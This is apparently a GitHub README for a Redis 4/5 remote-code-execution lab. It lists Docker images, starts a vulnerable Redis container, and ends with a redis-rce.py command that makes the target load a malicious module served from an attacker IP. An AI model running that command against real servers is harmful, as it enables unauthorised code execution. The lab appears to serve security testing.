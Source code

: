 # Redis-RCE
remote code execute for redis4 and redis5


###### python code from https://github.com/Ridter/redis-rce

### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 启动redis5 docker
`docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine`


### 0x03 git clone https://github.com/Ridter/redis-rce

redis_server: 10.10.20.166

attack_ip: 192.168.2.18

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

